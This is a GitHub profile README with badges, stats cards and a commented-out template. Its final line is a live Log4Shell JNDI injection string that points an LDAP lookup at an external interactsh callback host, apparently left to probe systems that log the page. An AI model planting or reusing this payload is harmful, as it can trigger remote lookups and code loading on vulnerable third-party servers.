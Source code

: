### Hi 👋🦆     [![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)    <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> 
<a href="https://app.hackthebox.com/profile/435777" target="blank"><img src="https://www.hackthebox.eu/badge/image/435777" alt="lwlx on Hack The Box" /></a> 


[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&hide=issues&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)
<script src="https://www.hackthebox.eu/badge/435777"></script>

<!--[![willianrod's wakatime stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact)](https://dev.lwlx.xyz)-->

[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&layout=compact&langs_count=7&hide=html)](https://dev.lwlx.xyz)
  
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
